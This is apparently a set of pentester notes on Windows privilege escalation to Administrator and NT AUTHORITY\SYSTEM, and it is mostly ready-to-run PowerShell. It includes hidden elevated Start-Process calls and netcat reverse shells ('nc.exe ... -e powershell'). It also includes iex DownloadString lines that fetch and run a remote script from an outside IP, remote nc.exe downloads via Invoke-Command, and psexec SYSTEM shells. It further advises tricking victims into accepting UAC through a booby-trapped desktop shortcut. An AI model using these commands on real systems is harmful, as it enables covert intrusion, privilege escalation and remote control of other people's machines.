 ## Becoming `BUILTIN\Administrator`

## Method 1 : ask UAC to the victim
> warnings:
> - run the program in another powershell window instance
> - the OS will ask the victim permissions with the UAC popup
> 	- need the victim to accept

Tips : if you set the payload to a revshell and embed this code in a desktop shortcut, when the victim will double click on the desktop shortcut, it'll run our payload and it will seems fluent for him

Open a new graphical window as admin :
```powershell
Start-Process <command, ex : "powershell"> -Verb runas
```
Execute command as admin in a hidden window
```powershell
Start-Process <command, ex : "powershell"> -Verb runas -WindowStyle Hidden
# Example
# Note the arguments are passed with -ArgumentList
Start-Process "curl" -Verb runas -WindowStyle Hidden -ArgumentList "http://192.168.0.17:8000/"
```
Same as above, but executing a script
```powershell
Start-Process -FilePath "<script path>" -Verb RunAs -WindowStyle Hidden
```

### `SUDO Asking for UAC` but not poping any additional window (ex: no cmd promt or powershell)

> Warning :
>  - The victim will be alerted by the UAC panel
>  - Before using this method you have to disable the firewall / or allow the specific listener port

Download nc.exe on windows: https://github.com/int0x33/nc.exe/
Then with two powershell sessions:
  - with the first list with netcat `.\nc.exe -lvp 9001`
  - with the second powershell, execute:
```powershell
Start-Process "powershell" -Verb runas -WindowStyle Hidden -ArgumentList "C:\Users\talion\Desktop\Tools\All\netcat\nc.exe 127.0.0.1 9001 -e powershell"
```

The victim will be alerted by the UAC panel and have to accept the execution for the attack to work (you have to do some social engeenering)

Then, you will get a revshell via localhost with full admin privileges !


## Method 2 : switch user via credentials
> infos:
> - similar to `su` on linux 
> - stealthier than method 1
> - but longer commands
> - need to know the creds

##### TLDR
```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<HOST>\<USERNAME>', $SecPassword)
Start-Process -Credential ($Cred) -NoNewWindow powershell "iex (New-Object Net.WebClient).DownloadString('http://10.10.14.11:443/ipst.ps1')"
```

> From [HackTricks : powershell for pentester page](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters#sudo)

```powershell
#CREATE A CREDENTIAL OBJECT
$pass = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("<USERNAME>", $pass)

#For local:
Start-Process -Credential ($cred) -NoNewWindow powershell "iex (New-Object Net.WebClient).DownloadString('http://10.10.14.11:443/ipst.ps1')"

#For WINRM
#CHECK IF CREDENTIALS ARE WORKING EXECUTING whoami (expected: username of the credentials user)
Invoke-Command -Computer ARKHAM -ScriptBlock { whoami } -Credential $cred

#DOWNLOAD nc.exe
Invoke-Command -Computer ARKHAM -ScriptBlock { IWR -uri 10.10.14.17/nc.exe -outfile nc.exe } -credential $cred
Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command &{Start-Process C:\xyz\nc.bat -verb Runas}'

#Another method
$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$computer = "<hostname>"
```


Other resources:
- https://asfiyashaikh.medium.com/windows-privilege-escalation-using-sudo-su-ae5573feccd9



## Becoming `NT AUTHORITY\SYSTEM`

> This assume that you have `BUILTIN\Administrator` or `admin group` access

> # [What is the Difference Between Windows Administrator and Windows System Users](https://stackoverflow.com/questions/14507439/what-is-the-difference-between-windows-administrator-and-windows-system-users)

### Using PsExec.exe from Windows Sysinternals
```powershell
d:\tools\psexec.exe -sid <program path>
```

#### Example using revershell on localhost

> Warning: a cmd window will popup for half a second but it can still alert the victim

Download nc.exe on windows: https://github.com/int0x33/nc.exe/
Then with two powershell sessions:
  - with the first list with netcat `.\nc.exe -lvp 9002`
  - with the second powershell, execute:
```powershell
.\psexec.exe -sid powershell -WindowStyle Hidden "C:\Users\talion\Desktop\Tools\All\netcat\nc.exe 127.0.0.1 9002 -e powershell"
```

Then, you will get a revshell via localhost with `NT AUTHORITY\SYSTEM` account !
